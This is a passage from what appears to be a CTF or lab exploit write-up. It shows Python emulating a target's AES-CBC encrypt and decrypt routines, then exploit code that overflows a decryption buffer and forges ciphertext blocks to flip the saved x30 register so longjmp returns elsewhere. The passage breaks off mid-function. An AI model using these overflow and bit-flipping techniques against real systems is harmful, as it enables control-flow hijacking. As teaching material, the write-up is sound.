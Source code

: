 ```python
        n = u32(MEMORY[0xb10:0xb14])
        if i >= n: break
        base = 0x48 + i * 0x114
        m = Message.from_bytes(MEMORY[base: base + 0x114])
        iv = MEMORY[0xc28 + i * 0x10: 0xc28 + (i+1) * 0x10]
        sz = m.size_mode0
        print("...encrypt %d/%d [%d bytes]" % (i, n, sz))
        assert base + 0xc + sz <= 0x1000
        MEMORY[base + 0xc:base + 0xc + sz] = AES.new(SECRET_AES_KEY, mode=AES.MODE_CBC, iv=iv).encrypt(MEMORY[base + 0xc:base + 0xc + sz])
        MEMORY[base + 0x110:base + 0x114] = p32(sz)
        MEMORY[base] = 1
        i += 1
        results.append(Message.from_bytes(MEMORY[base:base+0x114]))
    clear()
    return results

def decrypt(n):
    i = 0
    results = []
    while 1:
        n = u32(MEMORY[0xb10:0xb14])
        if i >= n: break
        base = 0x48 + i * 0x114
        m = Message.from_bytes(MEMORY[base: base + 0x114])
        iv = MEMORY[0xc28 + i * 0x10: 0xc28 + (i+1) * 0x10]
        sz = m.size_mode1
        print("...decrypt %d/%d [%d bytes]" % (i, n, sz))
        assert base + 0xc + sz <= 0x1000
        MEMORY[base] = 0
        MEMORY[base + 0xc:base + 0xc + sz] = AES.new(SECRET_AES_KEY, mode=AES.MODE_CBC, iv=iv).decrypt(MEMORY[base + 0xc:base + 0xc + sz])
        MEMORY[base + 4:base + 8] = p32(sz)
        i += 1
        results.append(Message.from_bytes(MEMORY[base:base+0x114]))
    clear()
    return results
```

This enabled me to build an initial exploit which would flip the bits of `x30` to cause `longjmp` to return elsewhere:

```python
CRC = crc32(b"A" * 16)

def decrypt_msg9(size):
    """ Overflowing decryption from message 9. Uses (CRC, size, 10, 0) as the IV for overflowed blocks. """
    block_old = struct.pack("<IIII", CRC, size, 10, 0)
    block_new = struct.pack("<IIII", 0xaaaaaaaa, 0xbbbbbbbb, 0, 0)
    block_dec = decrypt_block(block_old)
    block_enc = xor(block_new, block_dec)

    for i in range(9):
        add(Message(mode=0, data=b"A" * 16))
    add(Message(mode=0, data=b"A" * 240 + block_enc, size_mode0=16, size_mode1=size, crc=CRC))
    decrypt(10)

def encrypt_msg9(size, size1):
    """ Overflowing encryption from message 9. Uses (CRC, size1, 10, 0) as the IV for overflowed blocks. """
    block_old = struct.pack("<IIII", CRC, 16, 10, 0)
    block_new = struct.pack("<IIII", CRC, size1, 10, 0)
    block_dec = decrypt_block(block_new)
```